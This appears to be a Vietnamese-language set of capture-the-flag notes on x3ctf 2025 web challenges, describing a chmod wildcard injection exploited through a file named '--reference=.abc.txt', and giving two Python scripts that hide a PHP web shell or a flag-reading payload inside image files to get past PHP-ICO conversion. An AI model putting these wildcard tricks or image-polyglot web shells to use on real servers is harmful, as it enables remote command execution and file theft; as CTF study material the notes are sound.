


<div align='center'>

## **x3ctf Web Note (Not my writeup)**

</div>

Source code: https://github.com/x3ctf/challenges-2025

## **Submission**

Code bị lỗi:

```php
shell_exec('chmod 000 *');
```

**Tại sao lỗi:** tính năng của `*` trong UNIX shell aka wildcard injection:

- `*` sẽ hiểu luôn phần argument flag của command (VD: nếu có file tên `--help` thì `chmod *` sẽ thành `chmod --help`)

    

- `*` sẽ bỏ qua file bắt đầu bởi dấu chấm (hidden file)

    

**Reference:** 
- https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
- https://stackoverflow.com/questions/17462634/why-unix-wildcard-does-not-include


**Exploit:** Lợi dụng options --reference của chmod

- Tạo file `.abc.txt`: `chmod 000 *` sẽ bỏ qua file này => default permission
- Tạo file `--reference=.abc.txt`: `chmod 000 *` sẽ chỉnh quyền theo quyền của file `.abc.txt` => flag.txt sẽ bị đổi quyền theo file trên => readable

**Writeup:** https://gist.github.com/shafouz/3590fd2e1c4aa52fc4e3329efdf30c45

## **kittyconvert**

Cách nhét php code trong BMP file khi file ảnh được xử lí qua [PHP-ICO](https://github.com/chrisbliss18/php-ico) aka php-bmp polygot

```python
import cv2
import numpy as np

# giấu trong opacity mask
# Reference: https://discord.com/channels/977222226631880777/1333119208904724582/1333150919080149062

payload = b"<?php system($_GET['c'])?>a"
bits = ''.join([bin(i)[2:].zfill(8) for i in payload])
print(bits)
print(len(bits))

size = (32, 32)

im = np.zeros((*size, 4), np.uint8)

for ind, i in enumerate(bits):
    x = ind%32
    im[31-(ind//32)][x] = [255, 255, 255, (1-int(i))*255]

for ind in range(ind, 32 * 32):
    x = ind%32
    im[31-(ind//32)][x] = [255, 255, 255, 255]

# Save to disk
cv2.imwrite('result.png', im)
```

Cách khác 

```python
from PIL import Image
# giấu trong color mask 
# Reference: https://discord.com/channels/977222226631880777/1333119208904724582/1333143473938763777
# source = bytearray('''<?php readfile('/flag.txt'); __halt_compiler();'''.encode())
# Turns to              <?php rdadfhle(&/fl`g.txt'): __halt^compiler();
# This is a bit of a problem, so we have to convert the alpha channel
# Here is the list of characters that make it through unchanged instead:
#   `bdfhjlnprtvxz|~@BDFHJLNPRTVXZ\^ "$&(*,.02468:<>

source = bytearray('''<?php  readfile('/flag.txt' );  //'''.encode())
#                     BGRABGRABGRABGRABGRABGRABGRABGRABGRABGRABGRABGRABGRABGRABGRABGRA

size = (width, height) = (32, 32)
channels = 4

source = source.ljust(width * channels, b'A')
source = source.rjust(width * height * channels, b'A')
image = Image.frombytes('RGBA', size, source, 'raw', 'BGRA')

image.save('polyglot.png')
```